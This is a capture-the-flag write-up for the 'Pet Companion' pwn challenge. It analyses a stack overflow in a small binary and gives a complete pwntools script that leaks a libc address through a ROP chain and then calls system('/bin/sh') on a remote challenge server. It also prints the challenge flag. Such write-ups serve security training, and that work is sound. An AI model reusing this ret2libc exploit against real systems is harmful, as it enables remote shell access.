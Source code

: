 # Cyber Apocalypse 2024

## Pet Companion

> Embark on a journey through this expansive reality, where survival hinges on battling foes. In your quest, a loyal companion is essential. Dogs, mutated and implanted with chips, become your customizable allies. Tailor your pet's demeanor—whether happy, angry, sad, or funny—to enhance your bond on this perilous adventure.
> 
> Author: w3th4nds
> 
> [`pwn_pet_companion.zip`]pwn_pet_companion.zip

Tags: _pwn_

## Solution
The challenge comes with a binary which we put to Ghidra. The main is very short, it only writes a message, reads some user input and writes again a message. 

```c
undefined8 main(void)
{
  undefined8 local_48;
  undefined8 local_40;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  undefined8 local_18;
  undefined8 local_10;
  
  setup();
  local_48 = 0;
  local_40 = 0;
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  local_18 = 0;
  local_10 = 0;
  write(1,"\n[!] Set your pet companion\'s current status: ",0x2e);
  read(0,&local_48,0x100);
  write(1,"\n[*] Configuring...\n\n",0x15);
  return 0;
}
```

We also check what security measurements are in place:

```bash
$ checksec pet_companion
[*] '/home/ctf/cyber/pwn/pet/challenge/pet_companion'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'./glibc/'
```

So, we don't have a canary, this enables us to `overflow` and `rop`. With `no PIE` we know the addresses are fixed for the image. Since we don't have a win function or system or anything interesting in the binary, we can fall back to return to libc, which has `system`. The only problem is, we need to leak a libc address, since libc is not loaded to a fixed address due to `ASLR`.

Since the program calls to `write` we can in fact leak the address of `write` which we know is stored in the binaries `GOT`. So we have to do two stages, first leak the libc address of `write` and return back to `main`. The second time we know where libc is loaded to and can calculate the address to `system` to get a shell.

The following code does this and running it gives us the flag.

```python
from pwn import *

p = remote("83.136.255.230", 32842)
context.binary = binary = ELF("./pet_companion")
libc = ELF("./glibc/libc.so.6")

offset          = 0x48
pop_rdi         = 0x400743
pop_rsi_pop_r15 = 0x400741

# first stage, leak a libc address
payload = flat({
    offset: [
        pop_rdi,
        1,
        pop_rsi_pop_r15,
        binary.got["write"],
        0,
        binary.sym.write,
        binary.sym.main
    ]
})

p.sendline(payload)
p.recvuntil(b"Configuring...\n\n")
addr = u64(p.recv(6).ljust(8, b"\x00"))
libc.address = addr - libc.symbols["write"]

# second stage, ret2libc
sh = p64(next(libc.search(b"/bin/sh")))
system = p64(libc.symbols["system"])

payload = flat({
    offset: [
        pop_rdi,
        sh,
        system
    ]
})

p.sendline(payload)
p.interactive()
```

Flag `HTB{c0nf1gur3_w3r_d0g}`
